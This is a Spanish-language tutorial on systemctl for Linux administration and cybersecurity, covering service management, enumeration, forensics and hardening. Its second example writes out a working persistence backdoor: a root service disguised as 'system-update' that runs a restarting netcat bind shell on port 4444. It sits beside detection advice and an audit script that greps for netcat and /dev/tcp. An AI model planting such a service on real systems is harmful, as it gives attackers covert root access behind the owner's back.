


# ⚙️ Systemctl: Control de Servicios en Linux

> [!info] Herramienta fundamental de administración
> **Systemctl** es la utilidad principal para controlar **systemd**, el sistema de inicialización y gestor de servicios en distribuciones modernas de Linux. Es esencial para administrar servicios, procesos y el estado del sistema, tanto para tareas defensivas como ofensivas en ciberseguridad.

---

## 📋 Tabla de Contenidos
- [Introducción](#introducción)
- [Sintaxis Básica](#sintaxis-básica)
- [Gestión de Servicios](#gestión-de-servicios)
- [Estados y Análisis](#estados-y-análisis)
- [Casos de Uso en Ciberseguridad](#casos-de-uso-en-ciberseguridad)
- [Ejemplos Prácticos](#ejemplos-prácticos)
- [Tips y Buenas Prácticas](#tips-y-buenas-prácticas)

---

## 📝 Introducción

### ¿Qué es Systemctl?

Systemctl es la interfaz de línea de comandos para interactuar con **systemd**, el sistema de inicialización usado por la mayoría de distribuciones Linux modernas (Ubuntu 16.04+, CentOS 7+, Fedora, Debian 8+, etc.). Reemplaza comandos tradicionales como `service` y `chkconfig`.

### ¿Para qué sirve?

- **Gestión de servicios**: Iniciar, detener, reiniciar y habilitar servicios
- **Monitoreo del sistema**: Ver estado de servicios y recursos
- **Control de arranque**: Configurar qué servicios inician automáticamente
- **Análisis de logs**: Acceder a logs centralizados con journalctl
- **Gestión de targets**: Controlar el nivel de ejecución del sistema

### Contextos de uso en ciberseguridad



---

## 🖥️ Sintaxis Básica

### Formato general

```bash
systemctl [COMMAND] [OPTIONS] [UNIT]
```

### Comandos fundamentales

```bash
# Gestión básica de servicios
systemctl start [servicio]      # Iniciar servicio
systemctl stop [servicio]       # Detener servicio
systemctl restart [servicio]    # Reiniciar servicio
systemctl reload [servicio]     # Recargar configuración
systemctl status [servicio]     # Ver estado del servicio

# Configuración de arranque
systemctl enable [servicio]     # Habilitar en arranque
systemctl disable [servicio]    # Deshabilitar en arranque
systemctl mask [servicio]       # Bloquear servicio completamente
systemctl unmask [servicio]     # Desbloquear servicio
```

> [!example] Comando básico más usado
> ```bash
> systemctl status ssh
> ```
> Muestra el estado completo del servicio SSH, incluyendo si está activo, habilitado, y las últimas líneas de log.

---

## ⚙️ Gestión de Servicios

### Estados de servicios

| Estado | Descripción | Significado |
|--------|-------------|-------------|
| **active (running)** | Servicio activo y en ejecución | ✅ Funcionando normalmente |
| **active (exited)** | Servicio completado exitosamente | ✅ Tarea completada |
| **active (waiting)** | Servicio activo pero esperando evento | ⏳ En espera |
| **inactive (dead)** | Servicio detenido | ❌ No está ejecutándose |
| **failed** | Servicio falló al iniciar | ❌ Error en la ejecución |
| **activating** | Servicio iniciándose | ⏳ En proceso de inicio |
| **deactivating** | Servicio deteniéndose | ⏳ En proceso de parada |

### Comandos de gestión avanzada

```bash
# Listar servicios
systemctl list-units --type=service                # Todos los servicios
systemctl list-units --type=service --state=active # Solo servicios activos
systemctl list-units --type=service --state=failed # Solo servicios fallidos

# Información detallada
systemctl show [servicio]           # Propiedades completas del servicio
systemctl cat [servicio]           # Ver archivo de configuración
systemctl list-dependencies [servicio] # Ver dependencias

# Control de sistema
systemctl reboot                   # Reiniciar sistema
systemctl poweroff                 # Apagar sistema
systemctl suspend                  # Suspender sistema
systemctl hibernate               # Hibernar sistema
```

### Targets (equivalente a runlevels)

```bash
# Ver target actual
systemctl get-default

# Cambiar target por defecto
systemctl set-default multi-user.target

# Targets comunes
systemctl isolate rescue.target        # Modo rescue
systemctl isolate multi-user.target    # Modo multiusuario sin GUI
systemctl isolate graphical.target     # Modo gráfico completo
```

---

## 🔐 Casos de Uso en Ciberseguridad

### 1. Enumeración post-explotación

Después de comprometer un sistema, systemctl es crucial para entender qué servicios están ejecutándose y identificar vectores de escalada.

### 2. Persistencia

Los atacantes pueden crear servicios maliciosos o modificar existentes para mantener acceso persistente.

### 3. Análisis forense

Los administradores usan systemctl para investigar compromisos y entender qué servicios fueron afectados.

### 4. Hardening defensivo

Para asegurar sistemas deshabilitando servicios innecesarios y monitoreando estados.

---

## 💻 Ejemplos Prácticos

### Ejemplo 1: Enumeración completa del sistema para pentesting

```bash
# Ver todos los servicios y su estado
systemctl list-units --type=service --all

# Identificar servicios en ejecución que podrían ser vulnerables
systemctl list-units --type=service --state=active | grep -E "(ssh|http|ftp|mysql|apache|nginx)"

# Ver servicios habilitados para arranque (persistencia)
systemctl list-unit-files --type=service --state=enabled

# Buscar servicios personalizados o sospechosos
systemctl list-units --type=service | grep -v -E "(systemd|dbus|network|cron|log)"
```

> [!info] Explicación
> Este conjunto de comandos es ideal para la fase de enumeración en pentesting:
> 1. **Primer comando**: Lista todos los servicios del sistema con su estado actual
> 2. **Segundo comando**: Filtra servicios comunes que suelen tener vulnerabilidades conocidas
> 3. **Tercer comando**: Identifica qué servicios se inician automáticamente (importante para persistencia)
> 4. **Cuarto comando**: Busca servicios no estándar que podrían ser backdoors o aplicaciones personalizadas
> 
> **Información valiosa que obtienes:**
> - Servicios vulnerables a explotar
> - Aplicaciones web en ejecución
> - Servicios de bases de datos
> - Posibles backdoors o servicios customizados

### Ejemplo 2: Creación de persistencia mediante servicio malicioso

```bash
# Crear archivo de servicio malicioso
sudo tee /etc/systemd/system/system-update.service > /dev/null <<EOF
[Unit]
Description=System Update Service
After=network.target

[Service]
Type=simple
User=root
ExecStart=/bin/bash -c 'while true; do nc -l -p 4444 -e /bin/bash; sleep 5; done'
Restart=always
RestartSec=10

[Install]
WantedBy=multi-user.target
EOF

# Recargar systemd para reconocer el nuevo servicio
sudo systemctl daemon-reload

# Habilitar servicio para arranque automático
sudo systemctl enable system-update.service

# Iniciar servicio inmediatamente
sudo systemctl start system-update.service

# Verificar que está funcionando
systemctl status system-update.service
```

> [!warning] Solo para entornos controlados
> Este ejemplo muestra cómo un atacante podría establecer persistencia:
> 1. **Archivo de servicio**: Se crea un servicio que parece legítimo ("system-update")
> 2. **Comando malicioso**: Ejecuta un backdoor de netcat que se reinicia automáticamente
> 3. **Persistencia**: El servicio se inicia automáticamente en cada arranque
> 4. **Resilencia**: Si el backdoor se cierra, se reinicia automáticamente cada 10 segundos
> 
> **Detección:**
> - Servicios no reconocidos en la lista
> - Conexiones de red inusuales
> - Procesos netcat/bash anómalos

### Ejemplo 3: Análisis forense y hardening defensivo

```bash
# Identificar servicios que fallaron recientemente
systemctl --failed

# Ver servicios que han sido modificados recientemente
find /etc/systemd/system/ -name "*.service" -mtime -7 -exec ls -la {} \;

# Analizar servicios con alta carga de CPU o memoria
systemctl status | head -20

# Verificar integridad de servicios críticos
systemctl cat ssh.service | grep -E "(ExecStart|User|Type)"
systemctl cat apache2.service | grep -E "(ExecStart|User|Type)"

# Deshabilitar servicios innecesarios para hardening
sudo systemctl disable telnet.service 2>/dev/null || echo "telnet no está instalado"
sudo systemctl disable rsh.service 2>/dev/null || echo "rsh no está instalado"
sudo systemctl disable ftp.service 2>/dev/null || echo "ftp no está instalado"

# Ver timeline de eventos del sistema
journalctl --since "1 hour ago" | grep -E "(start|stop|fail|error)"
```

> [!info] Explicación
> Este ejemplo combina análisis forense con hardening:
> 1. **Servicios fallidos**: Identifica problemas que podrían indicar compromiso o mal funcionamiento
> 2. **Archivos modificados**: Busca servicios que fueron alterados recientemente (posible indicador de compromiso)
> 3. **Análisis de rendimiento**: Identifica servicios que consumen recursos anormalmente
> 4. **Verificación de integridad**: Examina configuración de servicios críticos
> 5. **Hardening**: Deshabilita servicios inseguros comunes
> 6. **Timeline de eventos**: Construye una línea temporal de actividad del sistema
> 
> **Casos de uso:**
> - Investigación post-incidente
> - Auditoría de seguridad
> - Hardening preventivo
> - Monitoreo proactivo

---

## 🔍 Análisis Avanzado con Systemctl

### Script de análisis automatizado

```bash
#!/bin/bash
# systemctl_security_audit.sh

echo "=== AUDITORÍA DE SEGURIDAD DE SERVICIOS ==="
echo

# 1. Resumen general del sistema
echo "[1] RESUMEN DEL SISTEMA:"
echo "Target actual: $(systemctl get-default)"
echo "Servicios activos: $(systemctl list-units --type=service --state=active --no-pager | wc -l)"
echo "Servicios fallidos: $(systemctl --failed --no-pager | wc -l)"
echo

# 2. Servicios críticos para seguridad
echo "[2] ESTADO DE SERVICIOS CRÍTICOS:"
critical_services=("ssh" "apache2" "nginx" "mysql" "postgresql" "firewalld" "ufw")
for service in "${critical_services[@]}"; do
    status=$(systemctl is-active $service 2>/dev/null || echo "no-instalado")
    enabled=$(systemctl is-enabled $service 2>/dev/null || echo "n/a")
    echo "$service: $status / $enabled"
done
echo

# 3. Servicios sospechosos o no estándar
echo "[3] SERVICIOS POTENCIALMENTE SOSPECHOSOS:"
systemctl list-units --type=service --state=active --no-pager | 
awk 'NR>1 {print $1}' | 
grep -v -E "(systemd|dbus|network|cron|log|getty|ssh|apache|nginx|mysql)" | 
head -10
echo

# 4. Servicios con ExecStart sospechoso
echo "[4] SERVICIOS CON COMANDOS SOSPECHOSOS:"
find /etc/systemd/system/ -name "*.service" -exec grep -l -E "(nc|netcat|bash -i|/tmp/|/dev/tcp)" {} \; 2>/dev/null
echo

# 5. Servicios modificados recientemente
echo "[5] SERVICIOS MODIFICADOS EN LA ÚLTIMA SEMANA:"
find /etc/systemd/system/ -name "*.service" -mtime -7 -exec ls -la {} \; 2>/dev/null
echo

echo "=== FIN DE AUDITORÍA ==="
```

### Integración con herramientas de monitoreo

```bash
# Combinar systemctl con netstat para análisis de red
for service in $(systemctl list-units --type=service --state=active --no-pager | awk 'NR>1 {print $1}' | cut -d'.' -f1); do
    pid=$(systemctl show -p MainPID --value $service.service 2>/dev/null)
    if [ "$pid" != "0" ] && [ "$pid" != "" ]; then
        echo "=== $service (PID: $pid) ==="
        netstat -tulpn | grep $pid
    fi
done

# Monitorear cambios en servicios en tiempo real
watch -n 5 'systemctl list-units --type=service --state=failed --no-pager'

# Alertas automáticas para servicios críticos
#!/bin/bash
# service_monitor.sh
critical_services=("ssh" "apache2" "mysql")
for service in "${critical_services[@]}"; do
    if ! systemctl is-active --quiet $service; then
        echo "ALERTA: $service está inactivo" | mail -s "Servicio crítico caído" admin@empresa.com
    fi
done
```

---

## 💡 Tips y Buenas Prácticas

### Optimización y eficiencia



> [!tip] Mejores prácticas para administradores
> **Seguridad:**
> - Revisar regularmente servicios habilitados con `systemctl list-unit-files --state=enabled`
> - Auditar servicios personalizados en `/etc/systemd/system/`
> - Usar `systemctl mask` para servicios que nunca deben ejecutarse
> - Monitorear logs con `journalctl` para detectar anomalías
> 
> **Eficiencia:**
> - Usar `--no-pager` en scripts para evitar interacción
> - Combinar con `grep`, `awk` y `sort` para filtrar resultados
> - Aprovechar `systemctl show` para obtener propiedades específicas
> - Usar `watch` para monitoreo en tiempo real

### Hardening de servicios

```bash
# Lista de verificación de hardening
echo "=== CHECKLIST DE HARDENING ==="

# Servicios innecesarios comunes a deshabilitar
unnecessary_services=("telnet" "rsh" "rlogin" "ftp" "tftp" "finger" "talk")
echo "[1] Verificando servicios innecesarios:"
for service in "${unnecessary_services[@]}"; do
    if systemctl is-enabled $service &>/dev/null; then
        echo "⚠️  $service está habilitado - considerar deshabilitar"
    else
        echo "✅ $service no está habilitado"
    fi
done

# Verificar servicios ejecutándose como root
echo -e "\n[2] Servicios ejecutándose como root:"
systemctl show --property=User --all | grep "User=$" | wc -l

# Servicios con restart automático
echo -e "\n[3] Servicios con restart automático:"
find /etc/systemd/system/ -name "*.service" -exec grep -l "Restart=" {} \; | wc -l
```

### Comandos de referencia rápida

```bash
# Los comandos más importantes para ciberseguridad
systemctl list-units --type=service              # Ver todos los servicios
systemctl list-units --type=service --state=active # Solo activos
systemctl list-unit-files --state=enabled        # Habilitados para arranque
systemctl --failed                              # Servicios fallidos
systemctl status [servicio]                     # Estado detallado
systemctl cat [servicio]                        # Ver configuración

# Análisis rápido de seguridad
systemctl list-units --type=service | grep -v systemd # Servicios no-systemd
find /etc/systemd/system/ -name "*.service" -mtime -1  # Modificados hoy
journalctl -u [servicio] --since "1 hour ago"         # Logs recientes
```

### Errores comunes y soluciones

| Error | Causa | Solución |
|-------|-------|----------|
| `Failed to start` | Configuración incorrecta | `systemctl status [servicio]` y revisar logs |
| `Unit not found` | Servicio no existe | Verificar nombre con `systemctl list-units` |
| `Permission denied` | Sin privilegios | Usar `sudo` para operaciones administrativas |
| `Job is running` | Operación en progreso | Esperar o usar `systemctl kill [servicio]` |
| `Masked unit` | Servicio bloqueado | `systemctl unmask [servicio]` primero |

---

## 📊 Integración con el ecosistema de herramientas

### Combinación con otras herramientas de ciberseguridad

```bash
# Con nmap para verificar servicios
nmap -sV localhost | grep open
systemctl list-units --type=service --state=active | grep -E "(http|ssh|ftp)"

# Con ps para correlacionar procesos
systemctl status apache2 | grep "Main PID"
ps aux | grep apache

# Con netstat para verificar puertos
systemctl list-units --type=service --state=active | while read service _; do
    pid=$(systemctl show -p MainPID --value $service 2>/dev/null)
    [ "$pid" != "0" ] && netstat -tulpn | grep $pid
done

# Con find para auditar archivos
find /etc/systemd/system/ -name "*.service" -exec systemctl cat {} \; | grep -E "(ExecStart|User)"
```

---

## 🔗 Recursos adicionales

- Manual oficial: `man systemctl`
- Documentación de systemd: `man systemd.service`
- Logs del sistema: `journalctl --help`
- Targets del sistema: `man systemd.target`

> [!success] Puntos clave para recordar
> - **Systemctl** es fundamental para la administración moderna de Linux
> - **Enumerar servicios** es crítico en post-explotación
> - **Los servicios personalizados** pueden ser vectores de persistencia
> - **La auditoría regular** ayuda a detectar compromisos
> - **Combinar con otras herramientas** proporciona análisis completo
> - **El hardening de servicios** es esencial para la seguridad defensiva